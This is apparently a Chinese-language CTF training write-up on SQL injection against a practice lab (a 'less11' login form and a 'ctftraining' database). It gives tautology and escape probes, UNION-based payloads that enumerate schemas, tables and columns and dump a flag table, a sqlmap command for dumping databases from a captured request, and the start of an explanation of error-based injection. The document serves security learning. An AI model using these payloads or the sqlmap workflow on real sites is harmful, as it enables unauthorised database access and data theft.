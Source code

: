 输入恒等式测试，成功。看出是单引号闭合

```sql
1' or 1=1#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732161343221-ca242211-3caa-4729-ab83-8e3dfae033ae.png)

或者输入转义字符，看出单引号闭合

```sql
1\
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732161446432-3dc4a1a4-1d56-4a88-90e8-f6205f31b0f8.png)

接下来就是联合注入了

```sql
-1' union select 1,group_concat(schema_name) from information_schema.schemata#
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'#
-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'#
-1' union select 1,group_concat(flag) from ctftraining.flag#
```

#### 使用 sqlmap
使用 burp 抓包，之后右键复制到文件，使用 txt 后缀

之后进入 sqlmap，按如下格式输入

比如我保存在 post_test 文件夹下

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732162828346-51296ff1-e954-40a7-aa32-cd5c7be63b0b.png)

```sql
python sqlmap.py -r post_test\less11.txt -dbs
```

成功爆库

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732162847444-a44cb980-b1ab-4c24-bb3f-47fdf887475e.png)

### 报错注入
#### 原理：
**报错注入是通过特殊函数错误使用并使其输出错误结果来获取信息的。是一种页面响应形式。**

**响应过程：**

> **用户在前台页面输入检索内容**![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732244222875-145b09d5-dff6-4da4-a827-f1e56ccc34ea.png)**后台将前台页面上输入的检索内容****<font style="color:#fe2c24;">无加区别</font>****的拼接成sql语句，送给数据库执行**![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732244223140-0176273e-e00a-4867-a286-90a75f584170.png)**数据库将执行的结果返回后台，后台将数据库执行的结果****<font style="color:#fe2c24;">无加区别</font>****的显示在前台页面**
>
